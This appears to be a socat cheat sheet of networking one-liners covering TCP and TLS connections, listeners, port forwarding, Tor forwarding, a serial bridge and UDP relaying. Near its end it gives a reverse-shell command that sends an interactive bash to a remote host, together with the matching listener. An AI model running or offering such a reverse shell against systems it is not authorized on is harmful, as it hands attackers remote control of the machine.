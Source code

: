 socat connect to http-server (port 80 on ‘butzel.info’)
=======================================================

socat TCP4:butzel.info:80 -

connect to https-server (port 443 on ‘butzel.info’ with tls)
============================================================

socat openssl:butzel.info:443 -

tcp-listener (port 3180), output as hexdump (-x) and fork for new connetions
============================================================================

socat -x tcp-listen:3180,fork -

practical examples:
===================

complete real working http-example:
===================================

(sleep is necessary to prevent socat closing socket before data received)
=========================================================================

(echo -e "GET / HTTP/1.1: butzel.info && sleep 1)  
| socat tcp4:butzel.info:80 -

http to httpS ‘Proxy’ (for an webserver without TLS-Support)
============================================================

socat OPENSSL-LISTEN:443,reuseaddr,pf=ip4,fork,cert=server.pem,cafile=client.crt,verify=0 TCP4-CONNECT:127.0.0.1:80

port forwarding (e.g. own port 3180 to port 22(ssh) on target
=============================================================

socat TCP4-LISTEN:3180,reuseaddr,fork TCP4:butzel.info:ssh

TOR-forwarding (needs tor-daemon on port 9050 running)
======================================================

socat tcp4-listen:8080,reuseaddr,fork socks4A:127.0.0.1:t0rhidd3ns3rvice.onion:80,socksport=9050

network (port 8266) to serial bridge (/dev/ttyUSB0 baudrate: 115200)
====================================================================

socat TCP4-LISTEN:8266,fork,reuseaddr /dev/ttyUSB0,raw,crnl,b115200

udp to tcp
==========

socat -u udp-recvfrom:1234,fork tcp:localhost:4321

reverse shell:
==============

socat exec:‘bash -i’,pty,stderr tcp:remote.butzel.info:3180

listener for above reverse shell (on remote.butzel.info):
=========================================================

socat file:`tty`,raw,echo=0 tcp-listen:3180

or: nc -lp 3180
===============
